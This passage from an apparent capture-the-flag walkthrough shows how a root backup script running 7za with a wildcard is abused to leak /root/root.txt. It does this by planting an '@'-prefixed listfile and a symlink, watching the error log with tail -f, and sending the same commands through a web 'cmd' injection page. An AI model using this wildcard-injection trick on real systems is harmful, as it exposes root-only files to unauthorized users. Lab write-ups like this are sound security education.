 I’m going to try to catch the root flag in the error log (details in next section). Unfortunately for me, that last thing the script does is clear that log. Fortunately, for me, there’s time between when it writes to the log and when it clears it. The `-f` option for `tail` will print out the end of the file, and then watch and continue to print data as the file grows.

### Strategy

I could get `root.txt` or any other file into one of the backup files, but since the key involves knowing the contents of `root.txt`, I won’t be able to open it.

I’m going to create two files in the `/uploads/` dir, a file named `@0xdf`, and a symbolic link named `0xdf` that points to `/root/root.txt`.

When `7za` then runs it will:
1. Start with `7za a /backup/$filename.zip -t7z -snl -p$pass -- *`.
2. The wildcard expands: `7za a /backup/$filename.zip -t7z -snl -p$pass -- @0xdf 0xdf`.
3. `7za` sees `@0xdf` as a listfile, and gets the content of `0xdf`, which is the root flag. That makes this command equivalent to: `7za a /backup/$filename.zip -t7z -snl -p$pass -- [root flag] 0xdf`.
4. `7za` tries to add files `0xdf` and `[root flag]` to the archive. But there is no file named `[root flag]`. So it writes an error log which includes the contents of `root.txt`.

From my shell as ldapuser, I’ll run `tail -f error.log`, and the flag will print out before the log is cleared just after.

### Exploit It

I’ve got two shells, one as apache that can write to `/var/www/html/uploads`, and one as ldapuser that can watch `error.log`

First, I’ll start `tail -f error.log`:

```

[ldapuser@ctf backup]$ tail -f error.log 

```

It will just hang waiting for new lines.

Next, I’ll use the apache shell to write the two files:

```

bash-4.2$ pwd
/var/www/html/uploads
bash-4.2$ touch @0xdf; ln -sf /root/root.txt 0xdf 
bash-4.2$ ls -l
total 0
lrwxrwxrwx. 1 apache apache 14 Feb 11 17:24 0xdf -> /root/root.txt
-rw-r--r--. 1 apache apache  0 Feb 11 17:24 @0xdf

```

Alternatively, if I didn’t have a full shell, I could just submit the following to the cmd webpage:

```

cd /var/www/html/uploads; touch '@0xdf'; ln -sf /root/root.txt 0xdf; ls -la; date

```

